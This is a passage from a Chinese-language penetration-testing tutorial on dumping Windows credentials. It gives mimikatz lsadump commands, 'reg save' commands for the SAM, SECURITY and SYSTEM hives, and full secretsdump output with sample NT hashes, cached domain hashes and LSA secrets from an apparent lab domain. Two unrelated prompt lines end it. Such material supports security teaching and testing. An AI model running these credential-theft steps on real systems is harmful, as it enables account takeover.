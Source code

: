 <a class="reference-link" name="SAM"></a>**SAM**

而另一个有凭证的地方是 [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) hive 文件，它包含计算机本地用户的 NT 哈希值。这可能很有用，因为有时组织会在域内计算机中设置相同的本地管理员密码。

<a class="reference-link" name="Dumping%20%E6%B3%A8%E5%86%8C%E8%A1%A8%E5%87%AD%E6%8D%AE"></a>**Dumping 注册表凭据**

为了从 SECURITY 和 SAM hives 中获得凭证，你可以通过使用 mimikatz 从内存中读取它们。

首先你需要执行 `token::elevate` 来获得一个 `SYSTEM` 会话，以允许你读取凭证。如果需要的话，还要执行 `privilege::debug`，以启用 SeDebugPrivilege 特权。然后，你可以执行以下命令，得到不同的凭证：
<li>
`lsadump::secrets`: Get the LSA secrets.</li>
<li>
`lsadump::cache`: Retrieve the cached domain logons.</li>
<li>
`lsadump::sam`: Fetch the local account credentials.</li>
另一种方法是用 [reg save](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-save) 命令保存 hives 文件的副本，将它们移到我们的机器上，最后用 [impacket secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) 脚本或 mimikatz 获取内容。

首先，你需要 dump 注册表 hive。你将需要 SECURITY 和 SAM hives 文件以及 SYSTEM hive，因为它包含 Boot Key（或 System Key），允许解密 SECURITY 和 SAM hives。

> reg command to save registry hives

```
C:\&gt;reg save HKLM\SYSTEM system.bin
The operation completed successfully.

C:\&gt;reg save HKLM\SECURITY security.bin
The operation completed successfully.

C:\&gt;reg save HKLM\SAM sam.bin
The operation completed successfully.
```

当 hives 被保存，然后将其移到你的本地机器上，用 secretsdump 转储它们。

> Secretsdump usage to dump

```
$ secretsdump.py -system system.bin -security security.bin -sam sam.bin  LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xb471eae0e93128b9c8d5780c19ac9f1d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6535b87abdb112a8fc3bf92528ac01f6:::
user:1001:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Dumping cached domain logon information (domain/username:hash)
CONTOSO.LOCAL/anakin:$DCC2$10240#anakin#2933cad9235d2f502d7bedc2016e6553
CONTOSO.LOCAL/han:$DCC2$10240#han#4a52a6d0d7f3590c68124f4d5f7ef285
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:59aa6b91e74a0a6fc40efee9f2fb07936a9d69f46397dee82d3ec6ca4d0c01a0293d79e5c040bf564b7938d6c25597816921ec614ad25933af6a2482a8ace4d1dd54dd4bb465384b30046d85f65083e885455ec5f01dcae30df619e3f944eaa008a09e0f7432981f7cdb8dea34e432f00ed92e1ae3e48111326deb2d0f9a6e7d868e24c840b8814d338a4165f90381a4a6b824addb4f71c5908cac4423a4efbc5a4d846c09245930b526a6bec8c678ca838a005dcf5014f8b18426c3e0dbd3921f82c57e6ca025d0258d4536a9e0b68b90ff26c054c992c84d11e95f78c55ca411ee0e5b412cb4fc0f08c28ca2d79996
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b13dae64def5f205f382a0ab4174eb85
[*] DefaultPassword 
(Unknown User):user
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6880eb76862df7875705885938102c696717eb18
```

[dc01]: PS C:\Users\Administrator\Documents&gt; whoami
[dc01]: PS C:\Users\Administrator\Documents&gt; hostname